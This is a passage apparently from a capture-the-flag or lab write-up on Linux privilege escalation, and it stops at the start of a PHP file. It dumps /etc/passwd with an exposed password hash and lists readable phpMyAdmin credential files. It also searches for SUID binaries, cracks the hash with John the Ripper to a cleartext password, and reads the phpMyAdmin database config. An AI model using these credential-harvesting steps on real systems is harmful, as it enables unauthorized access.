 goat:x:1003:1003:,,,:/home/goat:/bin/bash

harry:x:1001:1001:,,,:/home/harry:/bin/bash

karla:x:1000:1000:karla:/home/karla:/bin/bash

lissy:x:1005:1005::/home/lissy:/bin/sh

oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash

root:x:0:0:root:/root:/bin/bash

sally:x:1002:1002:,,,:/home/sally:/bin/bash

═╣ Hashes inside passwd file? ........... /etc/passwd:oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash

╔══════════╣ Readable files belonging to root and readable by me but not world readable

-rw-r----- 1 root www-data 525 Sep 18  2020 /etc/phpmyadmin/config-db.php

-rw-r----- 1 root www-data 8 Sep 18  2020 /etc/phpmyadmin/htpasswd.setup

-rw-r----- 1 root www-data 68 Sep 18  2020 /var/lib/phpmyadmin/blowfish_secret.inc.php

-rw-r----- 1 root www-data 0 Sep 18  2020 /var/lib/phpmyadmin/config.inc.php

  

  For manual SUID program checking 

```sh

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```

Nothing of note

  

Crack found hash `oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash`

  

added hash to hash file

```sh

john hash

```

hiphop           (oracle)

  

Got password from phpMyAdmin config

```

cat config-db.php

```

<?php

